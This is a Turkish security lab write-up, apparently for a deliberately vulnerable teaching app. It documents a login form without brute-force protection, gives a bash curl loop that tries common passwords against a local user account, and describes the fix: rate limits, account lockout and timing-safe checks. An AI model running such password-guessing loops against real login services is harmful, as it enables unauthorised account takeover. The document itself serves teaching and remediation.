


# VULN-06: Brute-force koruması yok

**OWASP:** A07:2021 Identification and Authentication Failures
**Kod:** app/auth.py → `_secure_login()` (`# VULN-06` yorumu)

## 1. Açıklama

Giriş formunda deneme sınırı ve hesap kilitleme yok. Saldırgan sınırsız parola deneyebilir.

## 2. Adımlar

1. Kısa bir parola listesi hazırla (`123456`, `password`, `qwerty123`, ...).
2. Burp Intruder veya şu döngü ile `can.ozturk` için dene:
```bash
for p in 123456 password 12345678 qwerty qwerty123; do
  code=$(curl -s -o /dev/null -w "%{http_code}" -X POST http://127.0.0.1:8000/login -d "username=can.ozturk&password=$p")
  echo "$p -> $code"
done
```
3. `303` dönen parola doğrudur.
4. Güvenli modda 5 hatalı denemeden sonra hesap 15 dakika kilitlenir, aynı IP'den dakikada 10'dan fazla deneme reddedilir.

## 3. Ekran görüntüsü: açık mod

`SECURE_MODE=false`



## 4. Etki

Zayıf parolalı hesapların ele geçirilmesi (credential stuffing, parola püskürtme).

## 5. Düzeltme

Güvenli modda: IP başına dakikada 10 deneme sınırı, kullanıcı başına 5 hatalı denemede 15 dakika kilit, var olmayan kullanıcı için de bcrypt çalıştırılarak zamanlama farkı kapatılır. Hata mesajı kullanıcının var olup olmadığını belli etmez.

## 6. Ekran görüntüsü: güvenli mod

`SECURE_MODE=true`



## Notlar

- Deneme sayısı / başarı:
- Kullanılan araç:
